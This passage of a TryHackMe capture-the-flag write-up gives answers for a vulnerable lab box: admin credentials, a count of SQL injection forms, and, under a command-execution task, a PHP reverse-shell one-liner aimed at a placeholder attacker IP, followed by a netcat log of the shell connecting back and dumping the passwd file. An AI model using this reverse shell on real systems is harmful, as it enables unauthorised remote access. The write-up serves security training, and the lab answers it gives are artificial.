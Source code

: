       [*] ending @ 02:21:36 /2020-11-07/

1)  What is the admin username?

      **pingudad**

2)  What is the admin password?

      **secretpass**
     
3) How many forms of SQLI is the form vulnerable to?

     **3**
     
**Task 5 (Command Execution)**

- **PHP reverse shell & netcat** 
 
![alt text](https://github.com/kashyap-source/Try-Hack-Me/blob/master/Linux/The%20Cod%20Caper/Image/Screenshot%202020-11-09%2013_30_06.png)

- A useful PHP reverse shell:
       
        php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
        (Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
 
- Netcat   
        
            kali@kali:~$ sudo nc -lnvp 80
            Listening on 0.0.0.0 80
            Connection received on 10.10.210.94 40862
            /bin/sh: 0: can't access tty; job control turned off
            $ ls
            2591c98b70119fe624898b1e424b5e91.php
            administrator.php
            index.html
            $ cat passwd
            root:x:0:0:root:/root:/bin/bash
            daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
            bin:x:2:2:bin:/bin:/usr/sbin/nologin
            sys:x:3:3:sys:/dev:/usr/sbin/nologin
            sync:x:4:65534:sync:/bin:/bin/sync
            games:x:5:60:games:/usr/games:/usr/sbin/nologin
            man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
            lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
            mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
            news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
            uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
            proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
